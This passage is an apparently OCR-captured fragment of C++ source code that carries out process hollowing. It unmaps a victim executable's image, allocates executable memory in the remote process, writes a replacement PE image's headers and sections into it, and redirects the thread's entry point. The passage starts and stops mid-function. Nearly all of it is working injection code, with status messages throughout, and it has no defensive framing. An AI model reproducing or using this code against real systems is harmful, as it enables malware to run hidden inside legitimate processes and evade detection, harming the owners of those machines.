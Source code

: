 ```cpp
	printf("[+] Hollowed out victim executable via NtUnmapViewOfSection\r\n");
	printf("\t[*] Utilized base address of 0x%08x\r\n", (UINT)pVictimImageBaseAddress);

	
	// Allocate memory for the replacement image in the remote process
	PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pReplacementImage;
	PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pReplacementImage + pDOSHeader->e_lfanew);
	DWORD replacementImageBaseAddress = pNTHeaders->OptionalHeader.ImageBase;
	DWORD sizeOfReplacementImage = pNTHeaders->OptionalHeader.SizeOfImage;

	printf("[+] Replacement image metadata extracted\r\n");
	printf("\t[*] replacementImageBaseAddress = 0x%08x\r\n", (UINT)replacementImageBaseAddress);
	printf("\t[*] Replacement process entry point = 0x%08x\r\n", (UINT)pNTHeaders->OptionalHeader.AddressOfEntryPoint);
	
	PVOID pVictimHollowedAllocation = VirtualAllocEx(
		pVictimProcessInfo->hProcess,
		(PVOID)pVictimImageBaseAddress,
		sizeOfReplacementImage,
		MEM_COMMIT | MEM_RESERVE,
		PAGE_EXECUTE_READWRITE);
	if (!pVictimHollowedAllocation) {
		printf("[-] Unable to allocate memory in victim process %i\r\n", GetLastError());
		TerminateProcess(pVictimProcessInfo->hProcess, 1);
		return 1;
	}
	printf("[+] Allocated memory in victim process\r\n");
	printf("\t[*] pVictimHollowedAllocation = 0x%08x\r\n", (UINT)pVictimHollowedAllocation);
	
	
	// Write replacement process headers into victim process
	WriteProcessMemory(
		pVictimProcessInfo->hProcess, 
		(PVOID)pVictimImageBaseAddress,
		pReplacementImage,
		pNTHeaders->OptionalHeader.SizeOfHeaders,
		0);
	printf("\t[*] Headers written into victim process\r\n");
	
	// Write replacement process sections into victim process
	for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER pSectionHeader = 
			(PIMAGE_SECTION_HEADER)((LPBYTE)pReplacementImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) 
				+ (i * sizeof(IMAGE_SECTION_HEADER)));
		WriteProcessMemory(pVictimProcessInfo->hProcess, 
			(PVOID)((LPBYTE)pVictimHollowedAllocation + pSectionHeader->VirtualAddress),
			(PVOID)((LPBYTE)pReplacementImage + pSectionHeader->PointerToRawData),
			pSectionHeader->SizeOfRawData, 
			0);
		printf("\t[*] Section %s written into victim process at 0x%08x\r\n", pSectionHeader->Name, (UINT)pVictimHollowedAllocation + pSectionHeader->VirtualAddress);
		printf("\t\t[*] Replacement section header virtual address: 0x%08x\r\n", (UINT)pSectionHeader->VirtualAddress);
		printf("\t\t[*] Replacement section header pointer to raw data: 0x%08x\r\n", (UINT)pSectionHeader->PointerToRawData);
	}
	
	
	// Set victim process entry point to replacement image's entry point - change EAX
	victimContext.Eax = (SIZE_T)((LPBYTE)pVictimHollowedAllocation + pNTHeaders->OptionalHeader.AddressOfEntryPoint);
```